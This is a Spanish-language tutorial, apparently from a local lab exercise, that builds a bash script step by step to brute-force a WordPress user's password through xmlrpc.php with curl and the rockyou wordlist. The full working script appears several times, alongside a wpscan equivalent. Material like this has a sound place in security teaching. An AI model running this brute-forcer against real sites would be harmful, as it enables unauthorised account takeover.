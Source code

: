 
---

Tras realizar una enumeración manual y detectar un usuario válido. Y haber usado `curl` e internet para localizar el formato válido de solicitud. Podemos realizar un script de fuera bruta para detectar una contraseña.

Esto es posible ya que el archivo **xmlrcp.php** se encuentra accesible.

SCRIPT Fuerza Bruta:

```bash 
nvim xmlrcp_bruceForze.sh
```

Script por partes: 

1º Queremos recorrer una lista de contraseñas como es el rockyou.txt 

2º Como es una lista larga y podemos cancelar para tener una salida limpia creamos una función de salida

```bash 
#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	exit 1
}

# Ctrl+C 
trap ctrl_c SIGINT

cat /usr/share/wordlists/rockyou.txt | while read password; do 

done
```

3º Queremos crear una estructura .xml para la contraseña que enviamos, necesitamos crear la función que cree el archivo con la solicitud indicada anteriormente:

```bash 
function createXML(){
	password=$1
	
	xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>USUARIO_CAMBIAR_POR_EL_DETECTADO</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
	"""

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password 
done
```

4º Tenemos que almacenar cada respuesta 

5º Enviar la solicitud POST como indicábamos antes:
 
```bash 
function createXML(){
	password=$1
	
	xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>USUARIO_CAMBIAR_POR_EL_DETECTADO</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
	"""
	
	echo $xmlFile > file.xml 
	
	curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.xml
}
cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password 
done
```

Si ejecutamos el script tal que así, veremos que las respuestas erróneas nos muestra un texto que se repite y el cual podemos filtrar con un condicional

6º Enviar solicitudes y filtrar por la que no sea errónea:

```bash 
function createXML(){
	password=$1
	
	xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>USUARIO_CAMBIAR_POR_EL_DETECTADO</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
	"""
	
	echo $xmlFile > file.xml 
	
	response=$(curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
		echo -e "\n[+] La contraseña para el usuario indicado es: $password"
		exit 0
	fi 
}
cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password 
done
```

Con este script detectaríamos lo mismo que `wpscan` cuándo hacíamos esto:

```bash 
wpscan --utl http://127.0.0.1:31337 -U USUARIO_DETECTADO -P /usr/share/wordlists/rockyou.txt 
```

---

## Script completo

```bash
#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	exit 1
}

# Ctrl+C 
trap ctrl_c SIGINT

function createXML(){
	password=$1
	
	xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>USUARIO_CAMBIAR_POR_EL_DETECTADO</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>"""
	
	echo $xmlFile > file.xml 
	
	response=$(curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
		echo -e "\n[+] La contraseña para el usuario indicado es: $password"
		exit 0
	fi 
}
cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password 
done
```

---
